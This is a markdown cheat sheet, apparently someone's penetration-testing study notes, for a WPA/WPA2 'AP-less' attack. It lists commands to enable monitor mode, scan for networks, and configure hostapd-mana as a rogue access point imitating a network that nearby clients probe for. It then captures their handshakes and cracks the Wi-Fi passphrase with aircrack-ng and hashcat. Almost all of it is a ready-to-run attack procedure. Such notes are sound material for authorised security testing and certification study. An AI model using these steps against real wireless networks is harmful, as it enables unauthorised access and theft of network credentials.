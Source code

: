 # WPA&WPA2-APLess

Use when there is no AP but there are clients trying to connect to said AP

- Put interface to monitor mode
    - `sudo airmon-ng start wlan0`
- Scan for networks
    - `sudo airodump-ng wlan0mon -w <output-file>`
- Create AP based on Network Probe
    - `vi <filename>.conf`
        
        ```bash
        interface=wlan1
        driver=nl80211 #always the same
        hw_mode=g # depends on the hardware mode
        channel=1 
        ssid=<ssid_of_AP> # replace this
        mana_wpaout=<filename>.hccapx #output file
        wpa=3 # uses both wpa and wpa2
        wpa_key_mgmt=WPA-PSK / WPA-EAP
        wpa_pairwise=TKIP CCMP
        wpa_passphrase=asdasdasd123 # has to be at least 8 characters long
        ```
        
        can check [https://www.notion.so/Attack-Impt-60a45434bc37476f856db5950ea8dc19?pvs=4](Attack%20%5BImpt%5D%2060a45434bc37476f856db5950ea8dc19.md) this for the list of config to set if needed
        
- Start the AP with hostapd-mana
    - `sudo hostapd-mana <filename>.conf`
- Handshake should now be captured on airodump-ng screen
    - Can stop capturing once AP-STA-POSSIBLE-PSK-MISMATCH is shown

- Crack with Aircrack-ng
    - `sudo aircrack-ng <output_file>.cap -e <ESSID>`
    - `sudo aircrack-ng <output_file>.cap -e <ESSID> -w /usr/share/john/password.lst`
- Crack with hashcat
    - `sudo hashcat -a 0 -m 2500 <filename>.hccapx /usr/share/john/password.lst --force`
    
    ![Untitled](Untitled%2043.png)
    
- If 2500 doesn’t work, save hccapx to pcap file
    - `hcxhash2cap --hccapx=<input-file>.hccapx -c <output-file>.pcap`
- Export 22000 hash mode from pcap
    - `hcxpcapngtool <output-file>.pcap -o <output-file>.22000`
- Crack with new version of hashcat
    - `sudo hashcat -a 0 -m 22000 <filename>.22000 -w /usr/share/john/password.lst --force`